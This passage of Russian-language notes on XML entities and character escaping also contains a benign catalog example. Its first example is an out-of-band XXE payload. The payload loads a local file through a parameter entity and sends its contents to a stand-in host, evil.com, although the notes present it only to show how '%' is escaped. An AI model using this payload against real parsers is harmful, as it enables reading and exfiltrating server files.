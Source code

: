 Пример `&#x25;`
```
<!DOCTYPE example [
    <!-- Определяем параметрическую сущность -->
    <!ENTITY % file SYSTEM "file:///path/to/file">
    
    <!-- Используем параметрическую сущность внутри другой сущности -->
    <!ENTITY % param "<!ENTITY &#x25; query SYSTEM 'https://evil.com/xxe_endpoint?data=%file;'>">
    
    <!-- Используем параметрическую сущность -->
    %param;
]>
```
- `%file;` — это параметрическая сущность, которая ссылается на файл.
- `%param;` — это другая параметрическая сущность, которая определяет новую сущность `%query;`.
- Символ `%` внутри значения сущности `%param;` экранирован как `&#x25;`, чтобы он не интерпретировался как начало новой параметрической сущности.


### Зачем нужны символы `&`, `<`, `>`, и другие

1. **Символ `&`**:
- Используется для обозначения начала сущности. Например, `&amp;` представляет символ `&`.

2. **Символы `<` и `>`**:
- Используются для обозначения начала и конца тегов. Если вам нужно использовать эти символы в тексте, их нужно заменить на соответствующие сущности:

- `<` заменяется на `&lt;`
- `>` заменяется на `&gt;`

3. **Символы `"` и `'`**:
- Используются для обозначения атрибутов. Если вам нужно использовать эти символы в тексте, их нужно заменить на соответствующие сущности:

- `"` заменяется на `&quot;`
- `'` заменяется на `&apos;`

### Пример XML-документа

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE catalog [
    <!ENTITY author "John Doe">
    <!ENTITY book_title "XML Basics">
]>
<catalog>
    <book id="1">
        <title>&book_title;</title>
        <author>&author;</author>
        <description>This is a book about &lt;XML&gt; basics.</description>
    </book>
    <book id="2">
        <title>Advanced XML</title>
        <author>Jane Smith</author>
        <description>This book covers advanced topics in &amp;XML.</description>
    </book>
</catalog>
```
